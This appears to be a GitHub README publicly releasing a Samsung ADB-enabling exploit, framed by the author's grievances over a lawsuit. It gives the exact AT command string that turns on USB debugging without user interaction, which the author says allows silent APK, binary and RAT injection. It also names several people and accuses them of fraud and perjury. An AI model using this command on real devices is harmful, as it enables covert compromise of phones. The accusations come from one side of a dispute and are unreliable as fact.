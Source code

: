 
# ADB 0-Day Exploit
# Enable ADB Samsung Verizon Devices
### Author: Jonathan Scott aka Jonathan Villarreal  @jonathandata1
### Date: October 19th, 2021
![Android ADB Enable Zero-Day](https://i.postimg.cc/YC10gg64/Untitled-design-Max-Quality-2021-10-19-T135934-479.jpg)

## Overview
#### In 2018 I was asked by Javier Villarreal of Verizon Wireless working in XPO Logistics to create a solution for all Samsung devices that would bypass Google's security and enable android debug bridge  without any human interaction. I was introduced to Javier Villarreal by a man named Jerry Forttenberry who I knew from Mannapov, LLC where I was Principal Engineer.  

#### My name is Jonathan Villarreal, I am in the process of legally changing my last name to Jonathan Scott. I want nothing to do with this last name the amount out people involved with this fraud with this last name, and how many family has disowned me because of the lies and the fraud sickens me every time I see the name Villarreal attached to my name.

#### I have been very public and open about everything that has been happening. 

#### I am the owner of Zroblack, LLC a security engineering firm that sold Zero-Day exploits that are currently in the wild all around the world. All of my exploits have been stolen by John Edward Saenz, my cousin-in-law whom I had not seen since I was 11 years old, $750,000 was stolen from my company as well. I was forced to sign a release or John Edward Saenz said he would "muck up my life"... The Texas Western District Court is upholding this release that was signed in duress, and allowing this technology that I created to be taken and used by John Edward Saenz in any way that he pleases. 

JOHN EDWARD SAENZ
![John Edward Saenz](https://i.postimg.cc/8c174bSX/LTUQb-Yl-P-400x400.jpg)


#### False testimony has been submitted by Steven Broderhausen acting as a forensics expert "proving" to the court that the technology I have developed does not exist, and has never existed on my company laptop, purchased by my company Zroblack's credit card, and registered in Apple Business under my company name. John Edward Saenz has lied underoath with the help of his defense attorney's from Dykema claiming that the laptop in question even though it was purchased with company funds was his personal use computer and never contained any code, schematics, patent drawings, or anything ever related to Zroblack, LLC including emails, pdf documents, and more. 

https://www.linkedin.com/posts/jonathan-scott-2ab05821a_cybersecurity-cyber-infosec-activity-6847009373210910720-Z2K-

https://twitter.com/jonathandata1/status/1441233668047966211?s=20

## My court case is: Villareal v. Saenz, 5-20-CV-00571-OLG-RBF

#### This case goes goes deeper than anyone knows and I will no longer stay silent about it. 
#### The courts have dismissed all but 1 claim in my case, 100% completely dismissing the sealed part of my court case that involves KNOWN Vulnerabilities in the 2020 US Census. 

https://twitter.com/jonathandata1/status/1449583265694822402?s=20

> Please check my twitter feed for more information, I have been
> speaking about this  openly because If the courts, and Blancco
> Technology Group are not going to protect the technology, I am
> releasing it to everyone so that we can have a fighting chance!
> 
> This is one of many Zero-Day's I will be releasing in order to make
> the public aware of an industry that exists in which Zero-Day exploits
> are being sold for billions of USD under the cover of "phone repair
> tech"
> 
> We wonder how spyware like Pegasus is so rampant in the world...it is
> because engineers like me are contracted to open holes in all kinds of
> systems, and then these zero-days are distributed around the world. 
> 
> https://twitter.com/jonathandata1/status/1449723687935127556?s=20
> 
> T**he first hour of my story you can listen to here and on Spotify.**
> 
> https://podcasts.apple.com/us/podcast/we-are-speaking-about-your-privacy-and-your/id1446317273?i=1000538889946
> 
>The last 5 minutes of this podcast has been cut off, but here is the document I speak about
>https://twitter.com/jonathandata1/status/1449994610495967234?s=20
> 
> #### I have to thank Alberto Daniel Hill whom has become family to me. He has been helping me get my message out, and get my story out,
> Alberto has been through more injustice than I can ever imagine, but
> yet is selflessly helping me, I encourage you to listen to his story
> on Darknet Diaries Episode 25.  
> 
> https://twitter.com/ADanielHill
> 
> https://twitter.com/jonathandata1/status/1449832445294043146?s=20

## Setup & Discussion

 1. `brew install android-platform-tool`
 2. Make sure adb is running in the background or you will not see the RSA prompt show up on the screen

 ## The Exploit

1. `AT+SYSSCOPE=1,0`
2. `AT+USBDEBUG`

#### As time progressed I simplified this exploit down to 2 AT Commands. These AT Commands can actually be combined into 1 string

    AT+SYSSCOPE=1,0;+USBDEBUG
 
This exploit can be executed on a Samsung galaxy device that is not setup yet, opening the device up to apk injection, binary injection, and RAT injection without the user ever knowing. 

The video I created for Verizon as they asked me is here. I posted it unlisted in 2019 to demonstrate for Blancco Technology group in Jan 2019 at a private event in Salt Lake City Utah. 

Please read the description in the video, and notice at the end that all those devices are Verizon Wireless Devices. 
https://www.youtube.com/watch?v=Q-HVtpCHA4c


## Ok so lets establish the official setup for this PoC
1. Ensure ADB is running in the background
2. There is no special hardware needed
3. There is no rooting required
4. You must be knowledgeable on how to execute AT Commands. I have written a program I call ATSEND that will help you execute these commands easily on Mac and Linux
5. https://github.com/jonathandata1/atsend
6. Sending the AT Commands Will Also help you send coordinated screen presses that will give you the ability to tap anyone on the screen WITHOUT needing ADB. This will allow you grant RSA Access to the device without ever needing to touch the device. 
7. My PoC in the video shows this being possible for 4 devices all at the same time....but I tested this on a custom USB rig that will allow for 200 devices at a time. 
8. This will work on Samsung Galaxy Phones 4.4.4 and higher, Tablets, and Watches
9. Bypassing the setup screen is easy at this point now...
10. Please see adb_aos_bypass.sh

![Android ADB Enable Zero-Day](https://i.postimg.cc/YSsM4fnB/Screen-Shot-2021-10-19-at-3-02-07-PM.png)

https://www.youtube.com/watch?v=Q-HVtpCHA4c

Patent Files & Description are here in the repository. Submitted and drafted by McCathern Lawfirm out of Dallas Texas. This is also one of the things that was stolen, so again, if the Texas Western District Court is going to allow technology like this to be stolen...The People Must Know




